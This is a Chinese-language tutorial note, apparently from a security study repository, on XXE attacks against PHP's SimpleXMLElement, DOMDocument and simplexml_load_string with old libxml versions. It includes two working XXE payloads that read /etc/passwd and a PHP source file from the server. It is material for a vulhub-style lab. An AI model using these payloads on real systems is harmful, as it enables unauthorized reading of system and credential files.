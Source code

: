 # SimpleXMLElement

## 参考

- https://github.com/vulhub/vulhub/tree/master/php/php_xxe
- https://www.php.net/manual/en/class.simplexmlelement.php
- https://www.kingkk.com/2018/07/%E7%AE%80%E6%9E%90XXE/
- https://stackoverflow.com/questions/51103431/parsepi-pi-php-never-end-when-trying-to-run-a-new-unit-test

## 利用范围

- (libxml<2.9.0, PHP 5, PHP 7)

libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。为了演示PHP环境下的XXE漏洞，本例会将libxml2.8.0版本编译进PHP中。PHP版本并不影响XXE利用。

## 前言

除了`SimpleXMLElement`类可以进行XXE攻击，现在知道的有如下类和函数

`SimpleXMLElement`、`DOMDocument`、`simplexml_load_string`

## 前置知识

- [XML](/VUL/XML.md)
- [DTD](/VUL/DTD.md)

## 测试

post发包并添加http头：

- `Content-Type: text/xml`

payload：
```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///var/www/html/dom.php" >]>
<root>
<name>&xxe;</name>
</root>

<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE a [
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```
在获取dom.php文件时，最开始会报错
`DOMDocument::loadXML(): ParsePI: PI php never end ... in file:///var/www/html/dom.php, line: 7 in `
这是因为xml把`<?php`识别为标签的开始，但是并没有出现标签的结束`?>`，加上就好了。

